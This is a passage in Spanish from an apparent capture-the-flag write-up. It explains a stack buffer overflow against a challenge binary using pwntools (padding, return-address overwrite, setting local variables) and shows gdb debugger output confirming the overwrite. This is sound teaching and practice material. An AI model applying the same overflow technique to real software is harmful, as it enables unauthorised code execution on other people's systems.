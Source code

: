 Estoy usando la <a href="https://pypi.org/project/pwntools/" target="_blank">librearia pwn</a> con python3.

Explicando el exploit, estoy enviando 172 bytes del carácter "A", reemplazando `EPI` con `f1` (function address), después de `EPI` tenemos `EBP`, que para nosotros no es importante ahora, así que puse `JUNK`, y tenemos nuestras variables locales, que en orden tenemos los valores `0x9c` y `300`.

También escribí un archivo llamado `payload.txt` para depurarlo con `gdb` más tarde.

Pondré un punto de interrupción en la dirección `0x804927d` porque creo que está cambiando una variable importante ya conocida.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ gdb port-65144
Reading symbols from port-65144...
(No debugging symbols found in port-65144)
gef➤  break *0x804927d
gef➤  run < payload.txt
```

¿Recuerda la variable en `.bss`? su address es `0x0804c035`, así que acabo de imprimir antes de ejecutar el punto de interrupción:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804c000  →  0x0804bf14  →  0x00000001
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xf7f0d580  →  0xfbad2088
$edx   : 0xff8e788c  →  0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
$esp   : 0xff8e7874  →  0x41414141 ("AAAA"?)
$ebp   : 0xff8e787c  →  0x41414141 ("AAAA"?)
$esi   : 0xf7f0d000  →  0x001dfd6c
$edi   : 0xf7f0d000  →  0x001dfd6c
$eip   : 0x0804927d  →   mov BYTE PTR [eax+0x35], 0x1
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff8e7874│+0x0000: 0x41414141   ← $esp
0xff8e7878│+0x0004: 0x41414141
0xff8e787c│+0x0008: 0x41414141   ← $ebp
0xff8e7880│+0x000c: 0x42424242
0xff8e7884│+0x0010: 0x0000009c
0xff8e7888│+0x0014: 0x0000012c
0xff8e788c│+0x0018: 0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
0xff8e7890│+0x001c: 0xf7f0d000  →  0x001dfd6c
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804926d                  or     BYTE PTR [eax+eax*1+0x24750000], bl
    0x8049274                  cmp    DWORD PTR [ebp+0xc], 0x12c
    0x804927b                  jne    0x8049298
 →  0x804927d                  mov    BYTE PTR [eax+0x35], 0x1
    0x8049284                  sub    esp, 0xc
    0x8049287                  lea    edx, [eax-0x1ff8]
    0x804928d                  push   edx
    0x804928e                  mov    ebx, eax
    0x8049290                  call   0x80490f0 <puts@plt>
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "port-65144", stopped 0x804927d in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804927d → mov BYTE PTR [eax+0x35], 0x1
```